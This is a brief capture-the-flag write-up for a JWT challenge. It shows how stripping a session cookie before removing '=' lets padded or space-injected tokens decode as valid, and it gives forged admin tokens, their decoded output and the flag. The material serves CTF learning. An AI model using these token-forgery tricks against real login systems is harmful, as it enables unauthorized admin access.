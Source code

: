 ```yaml
---
ai_date: 2025-05-17 21:39:04
ai_summary: "JWT token exploitation: Padding with spaces bypassed token validation"
ai_tags:
  - jwt
  - padding
  - xss
created: 2025-05-17T03:31
points: 434
solves: 97
title: JWTF
updated: 2025-05-17T22:01
---
```


Simple JWT challenge.

```python
session = request.cookies.get('session', None).strip().replace('=', '')
```

I saw this and immediately realized that due to the order, I can just have some token like this:

```
eyJhb--- .eyJhZG1--- .gpX6k---Y73hplA =
```

Where the equals sign is removed only after the `strip`, which means now we have a free space behind the token.

With some local testing it appears that with two spaces the token is valid.

```python
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.1sgMiOBOY0pqObWPICjjEJtuhIVBCyqB2pcCM-key0w  ="
print(jwt.decode(token, APP_SECRET, algorithms=["HS256"]))

{'admin': True, 'uid': '1337'}
```

... but it failed on remote.

I opened a ticket and apparently the author has patched this cheese.

So I looked for another cheese and quickly found another one.

```python
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.  1sgMiOBOY0pqObWPICjjEJtuhIVBCyqB2pcCM-key0w"
print(jwt.decode(token, APP_SECRET, algorithms=["HS256"]))

{'admin': True, 'uid': '1337'}
```

Adding spaces in the middle of the token is not a problem, and it will still decode correctly.

```flag
byuctf{idk_if_this_means_anything_but_maybe_its_useful_somewhere_97ba5a70d94d}
```